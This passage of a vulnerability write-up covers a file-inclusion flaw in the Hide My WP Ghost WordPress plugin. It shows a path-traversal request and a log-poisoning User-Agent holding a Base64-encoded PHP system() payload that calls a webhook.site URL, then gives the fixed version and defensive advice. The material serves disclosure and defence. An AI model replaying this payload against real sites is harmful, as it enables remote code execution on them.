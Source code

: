 When visiting the site with a User‑Agent containing the payload above, Apache will log this payload into the access log:

```sh
w41bu1@22NS088:~$ cat /var/log/apache2/other_vhosts_access.log
127.0.1.1:80 127.0.0.1 - - [18/Oct/2025:19:10:08 +0700] "GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/var/log/apache2/other_vhosts_access.log? HTTP/1.1" 403 2844 "-" "Mozilla/5.0 (X11; Ubuntu; <?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?>Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0"
```

When `include()` loads a file, PHP will execute any PHP code (`<?php ?>`) contained in the file before returning. The payload is Base64-encoded and decoded at include time with `base64_decode` to avoid escaping issues with quotes (`"` → `\"`) when the logger writes it. The decoded command becomes:

```sh
curl -I 'https://webhook.site/bac7e163-b475-4323-a315-acd010359640'
```

Finally, `system()` runs this command and returns its output.

> [!WARNING]
> Note: although `base64_decode` may be blocked by the plugin, Apache logged the payload before the plugin processed it; the Base64 string was still recorded in the log.

### Conclusion

Hide My WP Ghost version **≤ 5.4.01** allows LFI because the plugin reconstructs a path and then `include()`s it without canonicalization/whitelisting. By combining log‑poisoning and a payload containing `/wp-activate.php/?`, an attacker can escalate LFI to RCE in some configurations. The issue is fixed in **5.4.02** by sanitizing the URL before returning.

### Key takeaways

* **Do not directly include** data from requests.
* Use **realpath() / basename() / whitelist / base_dir checks** before including.
* `sanitize_text_field()` is not sufficient to prevent traversal.
* Log poisoning (User‑Agent, Referer…) can create an inclusionable payload source — do not log raw content that might later be included.
* Fixes must combine: sanitize + canonicalize + directory restriction + control over log write permissions.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Hide My WP Ghost Plugin <= 5.4.01 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/hide-my-wp/vulnerability/wordpress-hide-my-wp-ghost-plugin-5-4-01-local-file-inclusion-to-rce-vulnerability)
